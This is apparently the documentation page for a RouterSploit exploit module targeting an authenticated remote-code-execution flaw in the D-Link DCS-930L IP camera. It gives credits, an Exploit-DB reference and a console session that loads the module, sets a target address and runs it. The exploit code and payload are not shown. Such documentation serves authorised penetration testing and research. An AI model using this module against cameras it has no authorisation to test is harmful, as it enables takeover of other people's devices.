 # D-Link DCS-930L Auth RCE

## Description
Module exploits D-Link DCS-930L Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* Nicholas Starke <nick[at]alephvoid.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/39437/](https://www.exploit-db.com/exploits/39437/)

## Vulnerable devices
* D-Link DCS-930L

## Usage
```
rsf > use exploits/dlink/dcs_930l_auth_rce
rsf (D-Link DCS-930L Auth RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in with
   password                          Password to log in with


rsf (D-Link DCS-930L Auth RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DCS-930L Auth RCE) > run
[*] Running module...
```
